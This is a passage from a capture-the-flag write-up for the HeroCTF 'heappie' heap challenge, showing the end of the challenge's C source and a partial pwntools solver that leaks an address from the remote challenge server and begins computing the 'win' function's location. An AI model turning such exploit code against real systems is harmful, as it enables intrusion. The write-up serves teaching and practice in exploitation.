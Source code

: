   ```bash
            case 4:
                show_playlist();
                break;
            default:
                puts("Invalid choice!\n");
                break;
        }
    }

    free(playlist);
    return 0;
}
```


## *Dirty* solver i used to flag

```python
#!/home/kali/.venv/bin/python3

from pwn import *
import re

exe = './heappie'
elf = ELF(exe, checksec=False)
p = remote('pwn.heroctf.fr', 6000)

win_offset = elf.symbols['win']

# filling a first struct to leak an address:
p.sendline(b'1')
p.sendline(b'y')
p.sendline(b'play_1')
p.sendline(b'0')
p.sendline(b'biboup')

# leak address
p.sendline(b'4')

# collect data to parse it (numbers are random, i kept increasing the received data until i had an output i could parse)
data = p.recv(8192).decode()
# i added those "random" lines bcz i just wanted to flag and eat xD, it worked so i was good with it lol and figured ok lets come back to it later:
data += p.recv(8192*10).decode()
data += p.recv(8192*10).decode()
print(f"###\ndata received: {data}\n###")

# look for pattern using re.search(pattern, string, flags=0)
matches = re.search('song: (0x[0-9A-Fa-f]+)', data)
print(f"matches: type: {type(matches)}, value: {matches}")
matches = str(matches.group(0))[6:]

if matches:
    play_1_addr = int(matches, 16)
    print(f"leaked play_1_addr: {hex(play_1_addr)}")
else:
    print("found nothing")

# getting win_runtime_addr:
play_1_offset = elf.symbols['play_1']
print(f"play_1_offset: {hex(play_1_offset)}")

```